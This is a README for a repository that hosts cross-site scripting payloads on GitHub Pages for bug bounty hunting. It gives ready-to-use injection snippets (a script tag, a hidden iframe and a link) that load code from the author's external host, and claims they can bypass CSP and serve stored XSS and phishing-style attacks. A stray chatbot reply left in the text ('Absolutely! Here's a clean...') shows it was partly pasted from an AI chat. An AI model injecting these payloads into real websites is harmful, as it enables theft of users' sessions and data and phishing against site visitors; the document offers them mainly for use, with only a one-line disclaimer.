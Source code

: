 # XSS Payload Host (GitHub Pages)

This repository hosts XSS payloads via GitHub Pages. It is useful for security researchers, bug bounty hunters, or penetration testers to demonstrate and execute Cross-Site Scripting (XSS) payloads on vulnerable websites.

## Features

- Hosts external XSS scripts via GitHub Pages
- Bypasses CSP in some cases (depending on target site)
- Works with `<script src>`, `<iframe>`, and `<img>`-based injection
- Easy to use for PoC (Proof-of-Concept)

---

Absolutely! Here's a clean, well-formatted `README.md` section for **"How to Use"**, with proper markdown and code blocks to make it look professional and easy to read:

---


## How I Use It

Use this GitHub Pages setup to host my XSS payloads for testing real-world vulnerabilities during bug bounty hunting.

🔗 **Live Payload URL:**  
[https://yogsec.github.io/xss-test/](https://yogsec.github.io/xss-test/)

When I find a vulnerable parameter or input field that allows HTML/JS injection, I inject a `<script src>` or `<iframe>` pointing to my hosted payload. Here are a few ways I use it:

### 📜 Basic Script Injection

```bash
<script src="https://yogsec.github.io/xss-test/"></script>
```

### 🕵️‍♂️ Stealthy iframe Injection

```bash
<iframe src="https://yogsec.github.io/xss-test/" style="display:none"></iframe>
```

### 🔗 Clickable Link Payload

```bash
<a href="https://yogsec.github.io/xss-test/">Click Here</a>
```

This method is useful on targets where CSP policies restrict inline scripts, but allow loading scripts or frames from external sources. It’s also handy for stored XSS and phishing-style payloads.

> ⚠️ Use only for ethical hacking and responsible disclosure.


